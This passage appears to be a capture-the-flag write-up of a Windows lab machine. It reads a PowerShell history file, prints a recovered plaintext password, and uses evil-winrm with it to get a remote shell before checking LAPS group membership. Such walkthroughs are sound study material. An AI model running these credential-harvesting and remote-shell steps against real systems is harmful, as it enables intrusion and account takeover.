 ```powershell
PS history file: C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
PS history size: 434B
```

Looking at the PowerShell history file shows us some credentials for the user **svc_deploy**:

`type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

```powershell
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

<br>

## SVC_DEPLOY User

I run another **evil-winrm** to connect over as user **svc_deploy** and get a shell:

`evil-winrm -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' --ssl`

```powershell
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami
timelapse\svc_deploy
```

## More System Enumeration

Earlier we downloaded files from the SMB share and unzippped them. Some of those files were:

```bash
-rw-r--r-- 1 kali kali  104422 Apr 13 09:50 LAPS_Datasheet.docx
-rw-r--r-- 1 kali kali  641378 Apr 13 09:50 LAPS_OperationsGuide.docx
-rw-r--r-- 1 kali kali   72683 Apr 13 09:50 LAPS_TechnicalSpecification.docx
-rw-r--r-- 1 kali kali 1118208 Apr 13 09:50 LAPS.x64.msi
```

So it looks like Local Area Password Solution (LAPS) may be good thing for us to check out here.

I take a look at the **svc_deploy** users group memberships:

`net user svc_deploy`

```powershell
Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
```
